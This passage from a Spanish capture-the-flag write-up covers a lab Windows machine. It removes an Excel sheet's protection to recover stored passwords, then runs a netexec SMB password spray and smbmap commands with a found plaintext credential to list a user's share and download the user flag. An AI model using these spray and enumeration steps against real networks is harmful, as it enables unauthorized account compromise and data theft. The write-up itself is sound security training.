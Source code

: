 <figure><img src="../../../../../.gitbook/assets/2578_vmware_xxoU58pQjC.png" alt=""><figcaption></figcaption></figure>

Procederemos a eliminar el contenido a partir de la etiqueta "\<sheetProtecion>" hasta su cierre de la etiqueta. Guardaremos nuevamente el archivo.

<figure><img src="../../../../../.gitbook/assets/2579_vmware_g3g9phqfd2.png" alt=""><figcaption></figcaption></figure>

Volveremos al directorio principal donde están todos los archivos, procederemos a volver a comprimir todos los archivos a uno nuevo llamado "Document.xlsx".

```bash
ls

rm Phishing_Attempt.xlsx

zip Document.xlsx -r .

ls -l Document.xlsx
```

<figure><img src="../../../../../.gitbook/assets/2580_vmware_uaEYyj1vRW.png" alt="" width="498"><figcaption></figcaption></figure>

Abriremos este nuevo comprimido (Document.xlsx) y verificaremos que hemos podido quitar la protección del Excel y podemos visualizar el contenido, el cual se trata de contraseñas.

Guardaremos estas contraseñas en un archivo llamado "passwords.txt" y los nombres de los usuarios en "phishing\_users.txt".

<figure><img src="../../../../../.gitbook/assets/2581_vmware_Xi4rLflMYQ.png" alt="" width="469"><figcaption></figcaption></figure>

### SMB Password Spray Attack (Netexec)

Procederemos a realizar un **Password Spray Attack** para validar si de la lista de usuarios y contraseñas son válidas o no. En este caso, no realizaremos fuerza bruta, por lo que irá probando de manera paralela el usuario y contraseña.

Verificamos que encontramos unas nuevas credenciales del usuario "Sierra.Frye".

{% code overflow="wrap" %}
```bash
nxc smb 10.10.11.129 -u phishing_users.txt -p passwords.txt --no-bruteforce --continue-on-success
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/2582_vmware_46lQIKimpq.png" alt=""><figcaption></figcaption></figure>

Procederemos a realizar una enumeración a través de SMB sobre la carpeta del usuario, y verificamos que hemos encontrado la flag **user.txt**.

{% code overflow="wrap" %}
```bash
smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$/Sierra.Frye'

smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' --download 'RedirectedFolders$/Sierra.Frye/user.txt'

mv 10.10.11.129-RedirectedFolders_Sierra.Frye_user.txt user.txt

catnp user.txt
```
{% endcode %}
